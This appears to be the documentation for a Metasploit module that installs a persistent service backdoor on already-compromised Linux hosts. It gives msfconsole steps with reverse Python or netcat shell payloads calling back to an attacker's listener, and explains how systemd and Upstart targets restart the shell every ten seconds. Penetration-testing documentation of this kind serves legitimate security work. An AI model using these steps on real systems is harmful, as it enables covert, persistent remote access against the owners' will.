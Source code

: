 ### Creating A Testing Environment

  This module has been tested against:

1. Kali 2.0 (System V)
2. Ubuntu 14.04 (Upstart)
3. Ubuntu 16.04 (systemd)
4. Ubuntu 16.04 (systemd user)
5. Centos 5 (System V)
6. Fedora 18 (systemd)
7. Fedora 20 (systemd)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/service_persistence`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `set payload cmd/unix/reverse_python` or `payload cmd/unix/reverse_netcat` depending on system.
  7. Optional Do: `set SHELLAPTH /bin` if needed for compatibility on remote system.
  8. Do: `set lhost`
  9. Do: `exploit`
  10. Do: `use exploit/multi/handler`
  11. Do: `set payload cmd/unix/reverse_python` or `payload cmd/unix/reverse_netcat` depending on system.
  12. Do: `set lhost`
  13. Do: `exploit -j`
  14. Kill your shell (if System V, reboot target).  Upstart/systemd wait 10sec
  15. Get Shell

## Options

**target**

  There are several targets selectable, which all have their own issues.

0. Automatic: Detect the service handler automatically based on running `which` to find the admin binaries
1. System V: There is no automated restart, so while you'll get a shell, if it crashes, you'll need to wait for a init shift to restart the process automatically (like a reboot).  This logs to syslog or /var/log/<process>.log and .err
2. Upstart: Logs to its own file.  This module is set to restart the shell after a 10sec pause, and do this forever.
3. systemd and systemd user: This module is set to restart the shell after a 10sec pause, and do this forever.

**SHELLPATH**
  
  If you need to change the location where the backdoor is written (like on CentOS 5), it can be done here.  Default is /usr/local/bin

